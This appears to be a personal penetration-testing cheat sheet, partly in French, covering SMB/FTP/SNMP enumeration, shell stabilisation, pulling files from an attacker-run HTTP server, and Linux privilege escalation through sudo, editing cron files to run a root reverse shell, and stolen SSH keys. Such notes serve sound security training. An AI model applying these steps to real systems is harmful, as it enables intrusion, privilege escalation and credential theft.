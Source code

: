 # Getting Started

```bash
# se connecter via ftp
ftp -p <IP Address>
```

###### SMB
> SMB (Server Message Block) is a prevalent protocol on Windows machines that provides many vectors for vertical and lateral movement
SMB allows users and administrators to share folders and make them accessible remotely by other users.

```bash
# nmap script for smb
nmap --script smb-os-discovery.nse
# enumerate shares in smb 
smbclient -N -L \\\\<IP Address>
# se connecter en tant qu'utilisateur
smbclient -U <Username> \\\\<IP Address>\\<Sharename>
```

* -L : flag specifies that we want to retrieve a list of available shares on the remote host
* -N : suppresses the password prompt.

###### SNMP

> SNMP Community strings provide information and statistics about a router or device, helping us gain access to it.

```bash
# bruteforce the community string names
onesixtyone -c dict.txt <IP Address>
```

```bash
# find ip
ip a
```

###### Bind Shell
[bind shell payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)

###### Reverse Shell
[Reverse shell payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

###### Upgrading TTY
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
entrer*2

# sur notre terminal
echo $TERM
export TERM=<valeur du TERM>
stty size
stty rows <Val1> columns <Val2>
```


```bash
# listening server on our machine
python3 -m http.server 8000
# on the downloader machine : 
wget | curl  http://<ListenningMachine>:<LinstenningPort>/<File>
#
scp <FileName> <UserName>@<remotehost>:/<RemoteLink>

# validation
md5sum <filename>
file <fileName>
```

```bash
# changer les clés ssh
ssh-keygen
```

###### Privilege Escalation

[Windows Privilege Escalation Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Linux Privilege Escalation Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

* Enumeration tools 
    - Linux : 
        * [LinEnum](https://github.com/rebootuser/LinEnum), 
        * [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
    - Windows : 
        * 
* Kernel exploitation :
    - Search kernel version exploit with tools ( searchsploit ...)
* Installed Software exploit :
```bash
# run in both devices
dpkg -l
# C:\Program Files in Windows
```
* User privilege : sudo , SUID, Windows Token Privileges
    - ```bash
        sudo -l
        sudo su -
        su - # password reuse

      ```
    - exploit commander that can be executed with sudo [gftobins](https://gtfobins.github.io/), lolbas
    
    - ```bash
      # peut modifier un répertoire que ces fichiers appelent pour run un script reverse shell en root
      /etc/crontab
      /etc/cron.d
      /var/spool/cron/crontabs/root
      ``` 
    - SSH key search
    - **Si l'attaquant à le id_rsa de la cible sur sa machine, pour pouvoir l'utiliser il doit faire un _chmod 400_**